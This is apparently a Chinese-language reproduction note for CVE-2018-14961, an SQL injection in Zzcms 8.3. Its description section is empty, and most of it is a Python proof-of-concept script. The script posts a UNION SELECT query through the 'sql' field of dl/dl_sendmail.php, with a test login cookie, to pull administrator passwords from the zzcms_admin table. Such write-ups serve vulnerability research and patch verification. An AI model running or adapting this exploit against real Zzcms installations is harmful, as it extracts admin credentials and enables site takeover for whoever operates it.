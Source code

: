 # CVE-2018-14961 Zzcms 8.3 前台sql注入

### 一、漏洞简介

### 二、漏洞影响

Zzcms 8.3

### 三、复现过程


```python
#!/usr/bin/env python
#Author:Sublime
#coding:utf-8
import requests as req

url = "http://url:8080/dl/dl_sendmail.php"
cookies = {'UserName':'test','PassWord':'81dc9bdb52d04dc20036dbd8313ed055'}
data = { 'sql':'select email from zzcms_dl where id=-1 union select pass from zzcms_admin #'}

q = req.post(url,data,cookies=cookies,allow_redirects=False)
print q.status_code
print q.content
```

测试结果为：

![](images/15896918189264.png)


参考链接

https://www.anquanke.com/post/id/156660